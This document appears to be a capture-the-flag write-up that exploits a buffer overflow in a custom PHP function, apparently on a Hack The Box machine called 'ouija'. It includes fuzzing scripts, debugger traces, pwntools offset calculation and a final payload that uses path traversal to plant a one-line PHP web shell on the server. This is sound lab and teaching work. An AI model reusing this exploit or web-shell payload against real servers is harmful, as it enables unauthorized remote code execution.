 # Buffer Overflow

## Using Python

The following program is attempting to seg fault the local php server on port 8000 through the username field

```python
#!/usr/bin/python3

import requests

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

for i in range(0, 50000, 100):
    print(i)
    username = "A" * i
    burp0_data = {"username": username, "password": "kali"}
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
```

Once we know our program is segmentation faulting, we can then adapt the code to manually check our boundaries

```python
#!/usr/bin/python3

import requests
import sys

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

username = "A" * int(sys.argv[1])
burp0_data = {"username": username, "password": "kali"}
req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
```

Once we then know our rough boundaries, we can automate manual enumeration with the following adaptation (given we suspect the segmentation fault is surrounding a boundary of `65535`)

```python
#!/usr/bin/python3

import requests
import sys

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

for i in reversed(range(65535)):
    print(i)
    username = "A" * i
    burp0_data = {"username": username, "password": "kali"}
    try:
        req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    except:
        input("Wait...")
```

We can then verify if we are overwriting parameters by viewing the following `GEF` trace output:

```
[#0] Id 1, Name: "php", stopped 0x7ffff7fb83b0 in event_recorder (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7fb83b0 → event_recorder(p=0x7fffffffa330 'A' <repeats 800 times>, w=0x7fffffffa3a0 'A' <repeats 688 times>)
[#1] 0x7ffff7fb89a1 → validating_userinput(username=<optimized out>, password=0x7ffff4e5a098 "kali")
[#2] 0x7ffff7fb8a79 → zif_say_lverifier(execute_data=<optimized out>, return_value=0x7ffff4e15070)
[#3] 0x5555558b9154 → execute_ex()
[#4] 0x5555558bf435 → zend_execute()
[#5] 0x55555584c730 → zend_execute_scripts()
[#6] 0x5555557e661a → php_execute_script()
[#7] 0x55555593bb62 → jmp 0x55555593bb16
[#8] 0x55555593c193 → test eax, eax
[#9] 0x555555939842 → and r12d, 0x4
```

We can see that we are overwriting the parameters of event recorder with all `A`'s

We can then use `cyclic` from `pwntools` to view the exact offset

```python
#!/usr/bin/python3

import requests
from pwn import *

context.arch = "amd64"

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

username = cyclic(65535)
burp0_data = {"username": username, "password": "kali"}

try:
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
except:
    input("Wait...")
```

Given the trace output:

```
[#0] 0x7ffff7fb83b0 → event_recorder(p=0x7fffffffa330 "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaaby
aabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaei
aaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagr
aagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaah", w=0x7fffffffa3a0 "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaac
daaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaae
maaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaag
vaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaah")
[#1] 0x7ffff7fb89a1 → validating_userinput(username=<optimized out>, password=0x7ffff4e5a098 "kali")
[#2] 0x7ffff7fb8a79 → zif_say_lverifier(execute_data=<optimized out>, return_value=0x7ffff4e15070)
[#3] 0x5555558b9154 → execute_ex()
[#4] 0x5555558bf435 → zend_execute()
[#5] 0x55555584c730 → zend_execute_scripts()
[#6] 0x5555557e661a → php_execute_script()
[#7] 0x55555593bb62 → jmp 0x55555593bb16
[#8] 0x55555593c193 → test eax, eax
[#9] 0x555555939842 → and r12d, 0x4
```

We can check the first 4 bytes to provide to cyclic from each `event_recorder` parameter and identify the offsets with the following gdb command

```
x/1wx 0x7fffffffa330
0x7fffffffa330: 0x61616165

x/1wx 0x7fffffffa3a0
0x7fffffffa3a0: 0x62616168
```

And check with cyclic with the following

```
ipython3
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0]
Type 'copyright', 'credits' or 'license' for more information
IPython 8.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from pwn import *

In [2]: cyclic_find(0x61616165)
Out[2]: 16

In [3]: cyclic_find(0x62616168)
Out[3]: 128
```

This tells us the distance between the start of where we see bytes, and the start of the cyclic string (our offset) which in this case is 16 and 128!

We then need to determine the exact size of each buffer with the following commands:

```
ipython3
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0]
Type 'copyright', 'credits' or 'license' for more information
IPython 8.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: len("eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabf
   ...: aabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaa
   ...: ciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadk
   ...: aadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaa
   ...: enaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafp
   ...: aafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraa
   ...: gsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahu
   ...: aahvaahwaahxaahyaah")
Out[1]: 784

In [2]: len("haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaci
   ...: aacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaa
   ...: dlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaen
   ...: aaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaa
   ...: fqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraags
   ...: aagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaa
   ...: hvaahwaahxaahyaah")
Out[2]: 672
```

Given that we are just trying to write to parameter 1 in this context, we first identify the total size of our payload being `784` (buffer size) + `16` (offset) to be `800`

We can then execute our bufferoverflow attack in this context:

```python
#!/usr/bin/python3

import requests
from pwn import *

context.arch = "amd64"

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

fname_offset = 16
fname_data = 128

username = cyclic(65535)

path = "/tmp/<?=`$_GET[0]`?>/../../../home/kali/htb/machines/ouija/php/server-management_system_id_0/thing.php"
username = "/" * (800 - len(path)) + path
username = username + "A" * (65535 - len(username))

burp0_data = {"username": username, "password": "kali"}

try:
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
except:
    input("Wait...")
```

We keep the line `username = cyclic(65535)` in to be able to comment out the following line at any time and double check our offsets in case something seems to break

The addition of `+ "A" * (65535 - len(username))` to username is not normally required, but was required in this example.
